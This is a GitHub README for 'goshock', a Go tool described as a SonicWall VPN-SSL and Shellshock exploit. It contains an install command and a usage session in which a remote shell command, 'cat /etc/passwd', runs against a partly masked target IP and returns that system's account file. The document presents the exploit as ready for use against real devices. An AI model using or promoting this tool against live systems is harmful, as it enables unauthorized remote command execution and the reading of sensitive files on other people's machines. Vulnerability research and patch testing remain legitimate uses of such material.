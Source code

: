 # goshock
SonicWall VPN-SSL Exploit using Golang ( and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
```
▶ goshock

TARGET> 200.x.x.x
Linux Shell Command> cat /etc/passwd

root:x:0:0:root:/root:/usr/sbin/cli
bin:x:1:1:bin:/bin:/bin/false
daemon:x:2:2:daemon:/sbin:/bin/false
mail:x:8:12:mail:/var/spool/mail:/bin/false
squid:x:23:23:ftp:/var/spool/squid:/bin/false
ntp:x:38:38::/etc/ntp:/bin/false
sshd:x:74:74:sshd:/var/empty:/bin/false
nobody:x:99:99:Nobody:/home/nobody:/bin/false
snort:x:100:101:ftp:/var/log/snort:/bin/false
logwatch:x:102:102::/var/log/logwatch:/bin/false
dnsmasq:x:103:103::/:/bin/false
cron:x:104:104::/:/bin/false
admin::105:105::/:/usr/sbin/cli
```
